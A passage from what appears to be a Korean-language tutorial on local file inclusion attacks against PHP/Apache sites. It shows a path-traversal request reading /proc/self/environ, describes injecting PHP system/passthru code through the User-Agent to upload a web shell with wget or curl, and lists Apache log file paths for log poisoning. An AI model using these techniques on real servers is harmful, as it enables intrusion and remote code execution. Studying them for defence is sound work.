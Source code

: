 ```/proc/self/environ```에 접근히 가능한지 확인해볼 필요가 있음.  

만약 접근이 가능하다면 공격자는 공격대상인 사이트에 쉘을 올림으로서 영향력을 행사 할 수 있음.  

접근이 불가능 하다면 공격자는 아마 접근이 가능한 다른 파일을 찾아야 함.  

```/proc/self/environ```이 성공적으로 읽혀들여 졌다면 아래와 비슷한 결과들이 보일것임.  

<br>

```
DOCUMENT_ROOT=/home/sirgod/public_html GATEWAY_INTERFACE=CGI/1.1 HTTP_ACCEPT=text/html, application/xml;q=0.9, 
application/xhtml+xml, image/png, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1 
HTTP_COOKIE=PHPSESSID=134cc7261b341231b9594844ac2a d7ac HTTP_HOST=www.website.com 
HTTP_REFERER=http://www.website.com/etc/passwd 

HTTP_USER_AGENT= Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)

PATH=/bin:/usr/bin QUERY_STRING=view=..%2F..%2F..%2F..%2F..%2F..%2Fpr oc%2Fself%2Fenviron REDIRECT_STATUS=200 
REMOTE_ADDR=6x.1xx.4x.1xx REMOTE_PORT=35665 REQUEST_METHOD=GET REQUEST_URI=/index.php?
view=..%2F..%2F..%2F..%2F..%2F..%2Fproc% 2Fself%2Fenviron SCRIPT_FILENAME=/home/sirgod/public_html/index.php 
SCRIPT_NAME=/index.php SERVER_ADDR=1xx.1xx.1xx.6x SERVER_ADMIN=webmaster@website.com SERVER_NAME=www.website.com 
SERVER_PORT=80 SERVER_PROTOCOL=HTTP/1.0 SERVER_SIGNATURE=
Apache/1.3.37 (Unix) mod_ssl/2.2.11 OpenSSL/0.9.8i DAV/2 mod_auth_passthrough/2.1 mod_bwlimited/1.4 FrontPage/5.0.2.2635 Server at www.website.com Port 80
```

<br>

User-Agent를 burpsuite로 system 함수나 passthru함수를 이용한 PHP 코드를 넣거나 쉘을 올려 공격하는 방법.  

쉘은 wget이나 curl을 이용하는 방법이 있음.
: <a href="https://hapumee.github.io/2018/05/21/wget-vs-curl/" target="_blank">hapumee.github.io/2018/05/21/wget-vs-curl</a> 

<br><br>

### Log files
<hr style="border-top: 1px solid;"><br>

공격자가 평범한 아파치 서버를 공격한다고 가정함.  

기본적으로 아파치서버들은 access_log 라고 불리는 로그파일과 error_log 라고 불리는 로그 파일을 생성함.   

만약 공격자들이 이 로그들을 이용한다면 PHP 코드를 올릴수 있음.  

아래는 로그의 위치들을 예상해서 모아논 목록 

<br>

```
/etc/httpd/logs/access.log
/etc/httpd/logs/access_log
/etc/httpd/logs/error.log
/etc/httpd/logs/error_log
/opt/lampp/logs/access_log
/opt/lampp/logs/error_log
/usr/local/apache/log
/usr/local/apache/logs
/usr/local/apache/logs/access.log
/usr/local/apache/logs/access_log